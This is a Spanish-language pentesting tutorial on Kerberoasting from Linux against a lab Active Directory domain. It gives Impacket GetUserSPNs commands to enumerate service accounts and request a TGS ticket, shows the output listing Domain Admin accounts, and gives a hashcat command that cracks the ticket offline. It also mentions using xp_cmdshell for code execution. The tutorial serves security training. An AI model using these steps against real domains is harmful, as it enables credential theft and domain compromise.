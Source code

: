 ```yaml
---
title: Kerberoasting from a Linux Host
published: true
---
```



![Imagen_Kerberos](master/_site/assets/Kerberos.jpg)

# Kerberos

## ¿qué es Kerberos?:
Es una técnica de movimiento lateral / escalada de privilegios en el entorno de Directorio Activo. Tiene como objetivo la  cuentas “Service Principal Names”. Los SPN son identificadores únicos que utiliza kerberos para mapear un servicio en una cuenta de servicio en cuyo continente corre el servicio. Las cuentas de dominio suelen utilizarse para saltarse las limitaciones de autenticación de cuentas built-in como “NT AUTHORITY\LOCAL SERVICE”. Cualquier usuario de dominio puede solicitar un ticket kerberos para una cuenta de servicio del mismo dominio. Esto también está permitido entre árboles de dependencia en caso de que la autenticación esté permitida en el árbol de confianza. Lo único que necesitamos para realizar un ataque kerberoasting es una contraseña en texto claro ( o un hash NTLM), una shell en el contexto de un usuario de dominio o acceso a nivel de sistema a un host unido a dominio. Las cuentas de dominio que corren servicios son a menudo administradores locales, si no cuentas de altos privilegios de dominio. Debido a la naturaleza distribuida de los sistemas, interacción de servicios y transferencias de datos asociadas, las cuentas de servicio pueden ser ser administradores privilegiados en múltiples servidores a lo largo de la compañía. Muchos servicios requieren elevados privilegios en el sistema, por lo que las cuentas de servicio se suelen asociar a los grupos de privilegiados como Domain Admins. Es muy común encontrar con SPNs asociados a cuentas de privilegios elevados en un entorno Windows. Conseguir un ticket kerberos para una cuenta con SPN no significa per se que tengamos permiso para ejecutar comandos en el contexto de esta cuenta. Sin embargo el ticket TGS-REP está cifrado con el hash NTLM de la cuenta por lo que la contraseña en texto claro puede ser obtenida forzándolo a un ataque de fuerza bruta off-line.
Las cuentas de servicio suelen tener contraseñas débiles o reutilizadas para simplificar la tarea del administrador y en algunas ocasiones la contraseña es la misma que el nombre de usuario. Si la contraseña para una cuenta de dominio de SQL Service es craqueada, es probable que te puedas hacer administrador local en múltiples servidores o incluso el Domain Admin. Incluso si mediante kerberoasting conseguimos un ticket con un nivel de cuenta de usuario poco privilegiada, podemos utilizarla para solicitar tickets de servicio del servicio especificado en el SPN. Por ejemplo, si el SPN es de MSSQL/SRV01, podemos acceder al MSSQL como sys admin, habilitar xp_cmdshell extended procedure y obtener la capacidad de ejecución de código en el servidor SQL.
 

## A tener en cuenta durante el ataque:
Obtener un ticket TGS no te garantiza obtener una lista de credenciales válidas, el ticket debe ser crackeado off-line para obtener la contraseña en texto claro. Los tickets TGS llevan más tiempo de crackeo que otros tickets como los NTLM por lo que a menudo , a no ser que tenga una política débil de contraseñas puede resultar muy difícil o imposible crackear una contraseña con una plataforma normal de crackeo

## Desarrollo del ataque:
Los ataques de kerberoasting son fáciles de ejecutar con herramientas y scripts que lo automatizan. Podemos realizar estos ataques tanto desde un host linux como windows. Primero lo veremos desde un host Linux y de una manera semi-automatizada.

**Prerequisito**
Prerrequisitos: Una shell en un contexto de usuario de dominio o una cuenta como SYSTEM. Debemos saber también que host el Domain Controller.
Lo primero que necesitamos es el se de herramientas de Impacket.
```bash
sudo python3 -m pip install .
```

**Obtener lista de SPNs en el dominio**
Podemos obtener una lista de los SPNs presentes en el dominio. Para ello necesitaremos una lista de **credenciales válidas** y la **dirección del Domain Controller**. Podemos autenticarnos contra el Domain Controller con una contraseña en texto claro, un hash NTLM o un ticket Kerberos. Para nuestro caso utilizaremos el método de la contraseña. Con el siguiente comando podemos hacer un prompt de las credenciales y conseguir una lista de SPNs de una manera agradable. En el prompt de abajo podemos ver un ejemplo. Si podemos conseguir alguno de estos tickets y crackearlo podría llevar al compromiso del dominio. Es igualmente necesario que investiguemos todos los diferentes usuarios que aparecen porque no sabemos quien podría ser más fáciles de crackear.

```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

##Obtener el Ticket:
Una vez hemos visto los tickets que hay disponibles podemos hacer un request de cualquiera de ellos, aunque como ya hemos dicho sería necesario hacerlo de todos porque no sabemos quién podría tener una contraseña débil. 
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
Con el ticket final en nuestro poder solo tenemos que crackearlo en busca de la contraseña en texto plano, como este ejemplo es de un laboratorio sencillito la contraseña está dentro del diccionario "rockyou.txt". Para casos profesionales tendríamos que generar un diccionario personalizado, pero eso lo subiré en otro post.

##Crackeo del Ticket:
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

```Python 
Happy Hacking
```

```Python 
bl4sdl3zo@proton.me
```

